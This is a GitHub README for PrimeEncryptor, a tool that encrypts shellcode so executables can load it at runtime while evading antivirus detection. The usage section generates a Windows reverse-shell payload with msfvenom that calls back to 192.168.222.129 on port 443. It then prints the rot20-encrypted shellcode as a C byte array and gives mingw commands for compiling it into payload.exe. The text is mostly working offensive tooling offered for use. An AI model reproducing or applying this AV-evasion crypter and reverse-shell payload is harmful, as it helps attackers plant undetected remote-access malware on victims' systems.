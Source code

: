 # ♎ **PrimeEncryptor**

**PrimeEncryptor**  is a flexible Dynamic Shellcode Encryptor designed to generate encrypted shellcode using multiple encryption techniques. This tool creates encrypted .bin files, which can be embedded in the resource section of an executable. During runtime, the executable dynamically decrypts and loads the shellcode, helping bypass antivirus and security solutions by evading detection. The encrypted payloads are decrypted at runtime via a loader.

Additionally, PrimeEncryptor provides sample C++ code snippets that give you the necessary functions to load the encrypted shellcode directly from the resource segment of the executable. These code snippets simplify the process of embedding and dynamically loading the shellcode, ensuring efficient execution while maintaining stealth.

---

<p align="center">
  <img src="">
</p>

# ✔️ **Installation**

Clone the repository and set up the environment.

### **Installation**
```bash
git clone https://github.com/dagowda/PrimeEncryptor.git
cd PrimeEncryptor
sudo apt-get update
sudo apt-get install -y mingw-w64
```

---

# ⚙️ **Usage**

Make sure the necessary dependencies are istalled:

```bash
➜  PrimeEncryptor msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.222.129 LPORT=443 -f raw >payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes

➜  PrimeEncryptor python3 PrimeEncyptor.py payload.bin 

  
                                                                                                                         
██████╗ ██████╗ ██╗███╗   ███╗███████╗    ███████╗███╗   ██╗ ██████╗██████╗ ██╗   ██╗██████╗ ████████╗ ██████╗ ██████╗   
██╔══██╗██╔══██╗██║████╗ ████║██╔════╝    ██╔════╝████╗  ██║██╔════╝██╔══██╗╚██╗ ██╔╝██╔══██╗╚══██╔══╝██╔═══██╗██╔══██╗  
██████╔╝██████╔╝██║██╔████╔██║█████╗      █████╗  ██╔██╗ ██║██║     ██████╔╝ ╚████╔╝ ██████╔╝   ██║   ██║   ██║██████╔╝  
██╔═══╝ ██╔══██╗██║██║╚██╔╝██║██╔══╝      ██╔══╝  ██║╚██╗██║██║     ██╔══██╗  ╚██╔╝  ██╔═══╝    ██║   ██║   ██║██╔══██╗  
██║     ██║  ██║██║██║ ╚═╝ ██║███████╗    ███████╗██║ ╚████║╚██████╗██║  ██║   ██║   ██║        ██║   ╚██████╔╝██║  ██║  
╚═╝     ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═══╝ ╚═════╝╚═╝  ╚═╝   ╚═╝   ╚═╝        ╚═╝    ╚═════╝ ╚═╝  ╚═╝  
                                                                                                                         
................................................                                                                         
                      Encryptor function creator                                                                         
---------------------------------------------------------                                                                
Created by Dhanush Gowda(dagowda)                                                                                        
---------------------------------------------------------                                                                
................................................                                                                                                                                                                                                  
                                                                                                                         
Please select the encryption type:                                                                                       
1.)AES encryption                                                                                                        
2.)rot20                                                                                                                 
3.)rc4 encryption                                                                                                        
>2                                                                                                                       
unsigned char ciphertext[] = {0x10,0x5c,0x97,0xf8,0x04,0xfc,0xd4,0x14,0x14,0x14,0x55,0x65,0x55,0x64,0x66,0x65,0x6a,0x5c,0x45,0xe6,0x79,0x5c,0x9f,0x66,0x74,0x5c,0x9f,0x66,0x2c,0x5c,0x9f,0x66,0x34,0x5c,0x9f,0x86,0x64,0x5c,0x23,0xcb,0x5e,0x5e,0x61,0x45,0xdd,0x5c,0x45,0xd4,0xc0,0x50,0x75,0x90,0x16,0x40,0x34,0x55,0xd5,0xdd,0x21,0x55,0x15,0xd5,0xf6,0x01,0x66,0x55,0x65,0x5c,0x9f,0x66,0x34,0x9f,0x56,0x50,0x5c,0x15,0xe4,0x9f,0x94,0x9c,0x14,0x14,0x14,0x5c,0x99,0xd4,0x88,0x7b,0x5c,0x15,0xe4,0x64,0x9f,0x5c,0x2c,0x58,0x9f,0x54,0x34,0x5d,0x15,0xe4,0xf7,0x6a,0x5c,0x13,0xdd,0x55,0x9f,0x48,0x9c,0x5c,0x15,0xea,0x61,0x45,0xdd,0x5c,0x45,0xd4,0xc0,0x55,0xd5,0xdd,0x21,0x55,0x15,0xd5,0x4c,0xf4,0x89,0x05,0x60,0x17,0x60,0x38,0x1c,0x59,0x4d,0xe5,0x89,0xec,0x6c,0x58,0x9f,0x54,0x38,0x5d,0x15,0xe4,0x7a,0x55,0x9f,0x20,0x5c,0x58,0x9f,0x54,0x30,0x5d,0x15,0xe4,0x55,0x9f,0x18,0x9c,0x5c,0x15,0xe4,0x55,0x6c,0x55,0x6c,0x72,0x6d,0x6e,0x55,0x6c,0x55,0x6d,0x55,0x6e,0x5c,0x97,0x00,0x34,0x55,0x66,0x13,0xf4,0x6c,0x55,0x6d,0x6e,0x5c,0x9f,0x26,0xfd,0x6b,0x13,0x13,0x13,0x71,0x5d,0xd2,0x8b,0x87,0x46,0x73,0x47,0x46,0x14,0x14,0x55,0x6a,0x5d,0x9d,0xfa,0x5c,0x95,0x00,0xb4,0x15,0x14,0x14,0x5d,0x9d,0xf9,0x5d,0xd0,0x16,0x14,0x15,0xcf,0xd4,0xbc,0xf2,0x95,0x55,0x68,0x5d,0x9d,0xf8,0x60,0x9d,0x05,0x55,0xce,0x60,0x8b,0x3a,0x1b,0x13,0xe9,0x60,0x9d,0xfe,0x7c,0x15,0x15,0x14,0x14,0x6d,0x55,0xce,0x3d,0x94,0x7f,0x14,0x13,0xe9,0x64,0x64,0x61,0x45,0xdd,0x61,0x45,0xd4,0x5c,0x13,0xd4,0x5c,0x9d,0xd6,0x5c,0x13,0xd4,0x5c,0x9d,0xd5,0x55,0xce,0xfe,0x23,0xf3,0xf4,0x13,0xe9,0x5c,0x9d,0xdb,0x7e,0x24,0x55,0x6c,0x60,0x9d,0xf6,0x5c,0x9d,0x0d,0x55,0xce,0xad,0xb9,0x88,0x75,0x13,0xe9,0x5c,0x95,0xd8,0x54,0x16,0x14,0x14,0x5d,0xcc,0x77,0x81,0x78,0x14,0x14,0x14,0x14,0x14,0x55,0x64,0x55,0x64,0x5c,0x9d,0xf6,0x6b,0x6b,0x6b,0x61,0x45,0xd4,0x7e,0x21,0x6d,0x55,0x64,0xf6,0x10,0x7a,0xdb,0x58,0x38,0x68,0x15,0x15,0x5c,0xa1,0x58,0x38,0x2c,0xda,0x14,0x7c,0x5c,0x9d,0xfa,0x6a,0x64,0x55,0x64,0x55,0x64,0x55,0x64,0x5d,0x13,0xd4,0x55,0x64,0x5d,0x13,0xdc,0x61,0x9d,0xd5,0x60,0x9d,0xd5,0x55,0xce,0x8d,0xe0,0x53,0x9a,0x13,0xe9,0x5c,0x45,0xe6,0x5c,0x13,0xde,0x9f,0x22,0x55,0xce,0x1c,0x9b,0x31,0x74,0x13,0xe9,0xcf,0x04,0xc9,0xb6,0x6a,0x55,0xce,0xba,0xa9,0xd1,0xb1,0x13,0xe9,0x5c,0x97,0xd8,0x3c,0x50,0x1a,0x90,0x1e,0x94,0x0f,0xf4,0x89,0x19,0xcf,0x5b,0x27,0x86,0x83,0x7e,0x14,0x6d,0x55,0x9d,0xee,0x13,0xe9};                                                                                         
resources.rc and rot20.bin has been created                                                                              
TO COMPILE:                                                                                                              
"x86_64-w64-mingw32-windres resources.rc -O coff -o resources.res"                                                       
"x86_64-w64-mingw32-g++ --static -o payload.exe rot20.cpp resources.res -lws2_32 -lshlwapi -fpermissive"
```

---

## 📄 **Notes**
- Ensure you have **Python 3.8+** installed.
- Run the commands in a terminal with the required permissions.


![image_alt](https://github.com/dagowda/PrimeEncryptor/blob/ca37a805b9147f16fc9f8e1c92f4c76e234a0d22/images/screenshot2.png) 
